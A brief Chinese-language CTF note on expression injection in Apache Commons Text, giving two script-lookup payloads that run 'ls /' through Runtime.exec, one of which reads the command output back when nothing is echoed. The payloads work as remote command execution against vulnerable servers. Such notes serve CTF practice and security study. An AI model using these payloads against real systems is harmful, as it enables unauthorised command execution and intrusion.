 # Spel相关CTF

## 遇到没有回显的情况
这里因为做到了一道Apache Common Text相关的题目，其实原理应该差不多

普通测试：${script:javascript:java.lang.Runtime.getRuntime().exec("ls /")}
不回显测试：${script:js:new java.io.BufferedReader(new java.io.InputStreamReader(java.lang.Runtime.getRuntime().exec("ls /").getInputStream())).lines().collect(java.util.stream.Collectors.joining(java.lang.System.lineSeparator()))}
